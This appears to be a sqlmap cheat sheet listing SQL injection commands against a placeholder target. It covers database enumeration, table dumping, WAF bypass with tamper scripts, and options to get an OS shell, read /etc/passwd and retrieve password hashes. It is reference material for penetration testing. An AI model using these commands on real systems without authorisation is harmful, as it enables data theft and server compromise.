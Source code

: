 
---
## Basic Usage

```
sqlmap -u "http://target.com/page.php?id=1"
```

## Specify Request Method and Data

```
sqlmap -u "http://target.com/page.php" --data="id=1"
```
- Useful for POST requests.

## Scan a URL from a Request File

```
sqlmap -r request.txt
```

`request.txt` contains raw HTTP request headers/body.

## Database Enumeration

### List Databases

```
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

## List Tables in a Database

```
sqlmap -u "http://target.com/page.php?id=1" -D <dbname> --tables
```

## List Columns in a Table

```
sqlmap -u "http://target.com/page.php?id=1" -D <dbname> -T <tablename> --columns
```

## Dump Data from a Table

```
sqlmap -u "http://target.com/page.php?id=1" -D <dbname> -T <tablename> --dump
```

## Bypass WAFs / Filters

```
sqlmap -u "http://target.com/page.php?id=1" --tamper=between,randomcase
```

## Advanced Features

- `--os-shell`: Get an interactive OS shell
- `--os-pwn`: Attempt to gain a full system compromise
- `--file-read=/etc/passwd`: Read files from the server
- `--passwords`: Retrieve DBMS user password hashes
- `--batch`: Skip prompts (useful for scripting)
## Notes
   
- Combine with a proxy (`--proxy=http://127.0.0.1:8080`) to monitor traffic with Burp.
- Use `--level` and `--risk` to control the intensity of the test.



